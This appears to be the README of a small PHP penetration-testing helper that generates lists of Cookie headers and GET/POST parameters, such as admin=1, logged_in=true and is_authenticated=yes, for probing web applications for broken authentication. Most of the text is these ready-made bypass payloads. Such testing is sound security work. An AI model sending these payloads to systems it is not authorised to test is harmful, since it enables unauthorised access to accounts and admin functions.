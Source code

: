 # magic_params
A simple helper for generating cookie header plus POST/GET variable set to test for broken authentication based on existence of predictably-named cookies/GET/POST params.

Feel free to add some more words to the list, then run the tool, e.g.:

php generate_headers.php 

Cookie: auth=1; login=1; authenticated=1; admin=1; valid_user=1; valid-user=1; validuser=1; authenticated-user=1; authenticated_user=1; authenticateduser=1; valid=1; user=1; logged=1; loggedin=1; logged-in=1; logged_in=1; login=1; administrator=1; adminuser=1; admin-user=1; admin_user=1; is_valid=1; isvalid=1; is-valid=1; is_admin=1; isadmin=1; is-admin=1; isauthenticated=1; is-authenticated=1; is_authenticated=1; isuser=1; is_user=1; is-user=1

Cookie: auth=true; login=true; authenticated=true; admin=true; valid_user=true; valid-user=true; validuser=true; authenticated-user=true; authenticated_user=true; authenticateduser=true; valid=true; user=true; logged=true; loggedin=true; logged-in=true; logged_in=true; login=true; administrator=true; adminuser=true; admin-user=true; admin_user=true; is_valid=true; isvalid=true; is-valid=true; is_admin=true; isadmin=true; is-admin=true; isauthenticated=true; is-authenticated=true; is_authenticated=true; isuser=true; is_user=true; is-user=true

Cookie: auth=yes; login=yes; authenticated=yes; admin=yes; valid_user=yes; valid-user=yes; validuser=yes; authenticated-user=yes; authenticated_user=yes; authenticateduser=yes; valid=yes; user=yes; logged=yes; loggedin=yes; logged-in=yes; logged_in=yes; login=yes; administrator=yes; adminuser=yes; admin-user=yes; admin_user=yes; is_valid=yes; isvalid=yes; is-valid=yes; is_admin=yes; isadmin=yes; is-admin=yes; isauthenticated=yes; is-authenticated=yes; is_authenticated=yes; isuser=yes; is_user=yes; is-user=yes

GET/POST: auth=1&login=1&authenticated=1&admin=1&valid_user=1&valid-user=1&validuser=1&authenticated-user=1&authenticated_user=1&authenticateduser=1&valid=1&user=1&logged=1&loggedin=1&logged-in=1&logged_in=1&login=1&administrator=1&adminuser=1&admin-user=1&admin_user=1&is_valid=1&isvalid=1&is-valid=1&is_admin=1&isadmin=1&is-admin=1&isauthenticated=1&is-authenticated=1&is_authenticated=1&isuser=1&is_user=1&is-user=1

GET/POST: auth=true&login=true&authenticated=true&admin=true&valid_user=true&valid-user=true&validuser=true&authenticated-user=true&authenticated_user=true&authenticateduser=true&valid=true&user=true&logged=true&loggedin=true&logged-in=true&logged_in=true&login=true&administrator=true&adminuser=true&admin-user=true&admin_user=true&is_valid=true&isvalid=true&is-valid=true&is_admin=true&isadmin=true&is-admin=true&isauthenticated=true&is-authenticated=true&is_authenticated=true&isuser=true&is_user=true&is-user=true

GET/POST: auth=yes&login=yes&authenticated=yes&admin=yes&valid_user=yes&valid-user=yes&validuser=yes&authenticated-user=yes&authenticated_user=yes&authenticateduser=yes&valid=yes&user=yes&logged=yes&loggedin=yes&logged-in=yes&logged_in=yes&login=yes&administrator=yes&adminuser=yes&admin-user=yes&admin_user=yes&is_valid=yes&isvalid=yes&is-valid=yes&is_admin=yes&isadmin=yes&is-admin=yes&isauthenticated=yes&is-authenticated=yes&is_authenticated=yes&isuser=yes&is_user=yes&is-user=yes
